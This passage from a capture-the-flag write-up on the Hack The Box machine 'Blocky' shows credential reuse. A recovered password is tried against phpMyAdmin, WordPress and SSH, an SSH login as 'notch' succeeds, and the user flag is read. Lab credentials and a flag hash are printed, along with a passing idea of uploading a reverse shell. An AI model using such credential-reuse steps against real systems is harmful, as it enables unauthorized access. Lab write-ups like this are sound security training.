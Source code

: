 ## 4. Credential Reuse
Now that we know that a username is `root` & password is `8YsqfCTnvxAUeduzjNSXe22`, we can start using these to log onto the different sites.

Let's try `http://10.129.1.53/phpmyadmin/` first. I was able to successfully log into this phpMyAdmin page! Potentially, if I need to upload a reverse shell, I could attempt to do it from here.

![LOGGEDIN](https://user-images.githubusercontent.com/21957042/113508380-54725c00-9582-11eb-8c12-792e8c03243d.png)

Followed by `http://10.129.1.53/wp-admin/`. Attempt to use these credentials were unsucessful, as we got a `ERROR: Invalid username. Lost your password?` error.

![UnableLOGIN](https://user-images.githubusercontent.com/21957042/113508389-589e7980-9582-11eb-910a-fe6028dc28ed.png)

Since we also saw the existence of Port 21 SSH, we try to login with the credentials.
```
hippoeug@kali:~$ ssh root@10.129.1.53
The authenticity of host '10.129.1.53 (10.129.1.53)' can't be established.
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.53' (ECDSA) to the list of known hosts.
root@10.129.1.53's password: 
Permission denied, please try again.
root@10.129.1.53's password: 
```
This didn't work. Since we saw a username `notch` earlier, let's try that.
```
hippoeug@kali:~$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
notch@Blocky:~$
```
This worked!

## 5. Getting Flags
Time to find flags.
```
otch@Blocky:~$ dir
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```
Cool, one down.
